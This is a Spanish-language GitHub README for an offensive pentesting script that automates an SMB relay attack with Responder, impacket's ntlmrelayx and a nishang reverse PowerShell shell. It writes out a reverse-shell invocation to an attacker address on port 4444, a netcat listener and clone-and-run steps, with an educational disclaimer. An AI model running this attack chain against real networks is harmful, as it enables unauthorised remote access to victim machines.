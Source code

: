 
# SambaRelay

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

El script se ejecuto sobre ParrotOS 4.10

## Samba Relay version 2
para ir a la version 2 del script ve al link: https://github.com/Anonimo501/SambaRelay_V2.git


![Screenshot_1](https://user-images.githubusercontent.com/67207446/119040557-2eaae600-b97b-11eb-8cf6-0ac4d2581527.png)




git clone https://github.com/Anonimo501/SambaRelay.git

cd SambaRelay

chmod +x SMB_Relay.sh

./SMB_Relay.sh


# Referencias

SecureAuth Corporation.https://github.com/SecureAuthCorp/impacket
SamratAshok.https://github.com/samratashok/nishang
